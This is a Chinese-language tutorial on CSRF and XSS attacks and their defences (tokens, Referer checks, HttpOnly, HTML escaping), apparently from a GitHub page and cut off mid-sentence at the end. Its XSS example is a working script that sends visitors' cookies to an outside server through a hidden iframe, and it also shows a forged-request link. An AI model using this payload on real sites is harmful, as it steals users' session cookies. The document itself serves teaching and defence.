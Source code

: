 # CSRF攻击
CSRF(Cross-site request forgery) 中文翻译为跨站请求伪造
CSRF是指在用户不知情的情况下，冒充用户发起请求。
例如，一论坛网站的发贴是通过 GET 请求访问，点击发贴之后 JS 把发贴内容拼接成目标 URL 并访问：
```
  http://example.com/bbs/create_article?title=标题&content=内容
```
那么，我们只需要在论坛中发一帖，包含一链接：
```
 http://example.com/bbs/create_article?title=我是脑残&content=哈哈
```
只要有用户点击了这个链接，那么他们的帐户就会在不知情的情况下发布了这一帖子。但是既然发贴的请求可以伪造，那么删帖、转帐、改密码、发邮件全都可以伪造。所以这就是在用户不知情的情况下，伪造用户请求，完成一些违背用户意愿的请求。

## 防范CSRF攻击
### 关键操作只接受POST请求 
因为GET请求会把参数暴露在URL之中，这样通过修改URL的参数就能完成一些请求，这是非常不安全的。
### 检测 Referer

根据HTTP协议，在HTTP头中有一个字段叫Referer，它记录了该HTTP请求的来源地址。在通常情况下，访问一个安全受限页面的请求必须来自于同一个网站。比如某银行的转账是通过用户访问http://bank.test/test?page=10&userID=101&money=10页面完成，用户必须先登录http://bank.test，然后通过点击页面上的按钮来触发转账事件。当用户提交请求时，该转账请求的Referer值就会是转账按钮所在页面的URL（本例中，通常是以bank. test域名开头的地址）。而如果攻击者要对银行网站实施CSRF攻击，他只能在自己的网站构造请求，当用户通过攻击者的网站发送请求到银行时，该请求的Referer是指向攻击者的网站。因此，要防御CSRF攻击，银行网站只需要对于每一个转账请求验证其Referer值，如果是以bank. test开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果Referer是其他网站的话，就有可能是CSRF攻击，则拒绝该请求。

### 使用Token
 1.在请求地址中添加token并验证
CSRF攻击之所以能够成功，是因为攻击者可以伪造用户的请求，该请求中所有的用户验证信息都存在于Cookie中，因此攻击者可以在不知道这些验证信息的情况下直接利用用户自己的Cookie来通过安全验证。由此可知，抵御CSRF攻击的关键在于：在请求中放入攻击者所不能伪造的信息，并且该信息不存在于Cookie之中。鉴于此，系统开发者可以在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个token，如果请求中没有token或者token内容不正确，则认为可能是CSRF攻击而拒绝该请求。

2.在HTTP头中自定义属性并验证
自定义属性的方法也是使用token并进行验证，和前一种方法不同的是，这里并不是把token以参数的形式置于HTTP请求之中，而是把它放到HTTP头中自定义的属性里。通过XMLHttpRequest这个类，可以一次性给所有该类请求加上csrftoken这个HTTP头属性，并把token值放入其中。这样解决了前一种方法在请求中加入token的不便，同时，通过这个类请求的地址不会被记录到浏览器的地址栏，也不用担心token会通过Referer泄露到其他网站。

Token 使用原则
Token 要足够随机————只有这样才算不可预测
Token 是一次性的，即每次请求成功后要更新Token————这样可以增加攻击难度，增加预测难度
Token 要注意保密性————敏感操作使用 post，防止 Token 出现在 URL 中
# XSS攻击
XSS是跨站脚本攻击。指的是向网站注入一段代码，当其他用户访问这个网站时，会运行这个脚本，从而造成信息泄露等。

例如：
```
<script type="text/javascript"> 
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
</script>
```
在评论中插入这段代码，
 **此段代码就可以携带着用户的cookie信息传输给了http://192.168.123.123/myxss/...这段服务器，然后服务器的代码就可以接收到了用户的隐私消息，继而继续做其他的业务处理（myxss/index.php 中写一些可怕的代码，如把用户信息存进自己的数据库）。**
## 防范XSS攻击
### 使用HttpOnly提升Cookie安全性
通过设置Cookie的HttpOnly属性为true，是攻击者不能通过客户端脚本访问
### 对用户的输入进行 HTML escape（转义）

如果不需要用户输入 HTML，可以直接对用户的输入进行 HTML escape 。下面一小段脚本：
```
  <script>window.location.href=”http://www.baidu.com”;</script>
```
经过 escape 之后就成了：

  ```
&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;
```
它现在会像普通文本一样显示出来，变得无毒无害，不能执行了。
### 对用户输入进行验证
比如说对输入限定一定的长度，或者验证
